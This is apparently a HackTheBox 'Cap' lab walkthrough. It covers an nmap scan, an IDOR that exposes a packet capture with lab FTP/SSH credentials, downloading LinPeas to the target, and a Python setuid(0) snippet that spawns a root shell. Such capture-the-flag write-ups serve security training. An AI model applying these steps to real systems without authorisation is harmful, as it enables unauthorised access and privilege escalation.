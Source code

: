 #  HackTheBox — Cap Walkthrough

## 🧭 Enumeration

We'll begin by scanning all ports using **Nmap**. You can also use `rustscan` if you prefer speed.

### 📡 Full TCP Nmap Scan

```bash
nmap -T4 -A -p- 10.10.10.245
```

```bash
Nmap scan report for 10.10.10.245
Host is up (0.26s latency).
Not shown: 65531 closed tcp ports (reset)
PORT     STATE SERVICE    VERSION
21/tcp   open  ftp        vsftpd 3.0.3
22/tcp   open  ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp   open  http       Gunicorn
|_http-server-header: gunicorn
|_http-title: Security Dashboard
8888/tcp open  tcpwrapped
Device type: general purpose|router
Running: Linux 4.X|5.X, MikroTik RouterOS 7.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5 cpe:/o:mikrotik:routeros:7 cpe:/o:linux:linux_kernel:5.6.3
OS details: Linux 4.15 - 5.19, MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3)
Network Distance: 2 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   256.02 ms 10.10.14.1
2   256.16 ms 10.10.10.245

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 793.62 seconds
```


FTP(21), SSH(22), HTTP(80) ports are open on this machine,
lets check out the HTTP service 


![Screenshot From 2025-06-11 16-11-08](https://github.com/user-attachments/assets/a8bb77a8-3004-4b03-a818-d1bec41fade2)

## IDOR
In the security snapshot section, we notice that the value of the `/data/id` increments everytime, this could mean we are able to view packet captures of other users. This is known as Insecure Direct Object Reference (IDOR), wherein a user can 
access data owned by another user

![Screenshot From 2025-06-11 16-14-56](https://github.com/user-attachments/assets/0d9bd8ad-458d-4bea-889c-0b84c9fb5401)


I tried `/data/0` and found multiple packets 

![Screenshot From 2025-06-11 16-18-32](https://github.com/user-attachments/assets/4a0044f5-8915-4369-9028-6ff4b29cc9b8)

We shall download the 0.pcap file and analyse it using wireshark

![Screenshot From 2025-06-11 16-21-11](https://github.com/user-attachments/assets/9837909f-a78b-42bc-bf0a-8cf888abd89e)

This part looks interesting, It seems to be a password to either FTP or SSH services
```bash
username: nathan
password: Buck3tH4TF0RM3!
```

I used the credentials for FTP and it worked!

![Screenshot From 2025-06-11 16-24-59](https://github.com/user-attachments/assets/098a17ec-46f3-4d1b-a4cf-35a0d680c966)

It worked for SSH as well

![Screenshot From 2025-06-11 16-28-11](https://github.com/user-attachments/assets/3dacc215-eddb-478f-a476-390b34a851fe)

now we have a shell in the system : D

![Screenshot From 2025-06-11 16-30-33](https://github.com/user-attachments/assets/e3cd4816-c596-4e83-9606-2b3144fe8a2b)

the user flag in user.txt is in plain sight


## 💂 Privelege Escalation

We shall use LinPeas.sh to escalate priveleges in this machine and gain root access, but LinPeas is not provided in the machine, hence I shall host it using a python http server and simply `cURL` it in the machine


Firstly, I shall start Linpeas on my Kali host and then serve it to our machine

![Screenshot From 2025-06-11 16-37-16](https://github.com/user-attachments/assets/d3306b3d-3b81-4c75-ae63-69f455da1bb6)

Now we can `curl` it to the machine !

![Screenshot From 2025-06-11 16-37-01](https://github.com/user-attachments/assets/dad6016b-0271-4f7a-914e-7ac92e0f7ad8)

we take a look at the "Files with capabilities" section of the linpeas output and find this

![Screenshot From 2025-06-11 16-42-35](https://github.com/user-attachments/assets/cb178f31-14c6-4403-a5da-6b821d0b0c44)

![Screenshot From 2025-06-11 16-46-07](https://github.com/user-attachments/assets/b4979a1d-99ae-4207-9d68-569c2fa4325b)

This lets us change UID to 0 i.e root

we run the python script with the following code:
``` bash
import os
os.setuid(0)
os.system("/bin/bash")
```
![Screenshot From 2025-06-11 16-49-26](https://github.com/user-attachments/assets/7c7e46ac-54e1-4284-a7c1-1fe61fe4a423)

Now that we've gained root access, we shall move to the root dircetory and find the root flag!

![Screenshot From 2025-06-11 16-52-12](https://github.com/user-attachments/assets/c6a123ef-92f5-4ea1-ae1d-2a4e3998e777)


Happy Hacking!!!
                                                              
